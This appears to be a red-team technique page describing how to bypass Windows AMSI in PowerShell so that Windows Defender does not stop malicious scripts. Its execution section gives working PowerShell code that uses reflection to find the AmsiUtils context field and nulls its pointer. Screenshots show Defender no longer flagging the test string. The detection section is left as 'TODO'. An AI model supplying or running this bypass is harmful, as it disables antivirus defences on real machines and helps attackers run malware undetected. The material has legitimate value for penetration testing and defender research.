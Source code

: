 # Powershell AMSI Bypass
## Summary

AMSI (Antimalware Scan Interface) is used to monitor several processes under Windows that can be used to run commands, such as powershell and jscript. Under powershell, there are several methods that can be used to bypass this technology, which will prevent Windows Defender from stopping the powershell process whilst executing a malicious script. The following is an example of AMSI when it's functioning properly:

![AMSI Functioning](./images/Pasted%20image%2020230707132119.png)

## Prerequisites

Windows Defender (or another AV that implements AMSI) must be running and must be active. Further, the ability to execute powershell against the target is required.

## Setup

N/A

## Execution

### Method 1 - Nulling the AMSI Context

This method is used to null out the pointer that AMSI uses to keep track of its current context. Instead of crashing the process or preventing any command from being executed, all commands will be allowed to execute even if they are malicious. This technique can be done from powershell itself, and needs no external utility.

Use the following powershell code to bypass AMSI:

```powershell
foreach($x in [Ref].Assembly.GetTypes()){if($x.Name -like '*iUtils'){$a=$x}}
foreach($x in $a.GetFields('NonPublic,Static')){if($x.Name -like '*Context'){$c=$x}}
[IntPtr]$ptr=$c.GetValue($null)
[Int32[]]$buf=@(0)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

Now the 'amsiutils' test string should not trigger defender:

![Bypass AMSI](./images/Pasted%20image%2020230707132744.png)

#### Indicators of Compromise

TODO
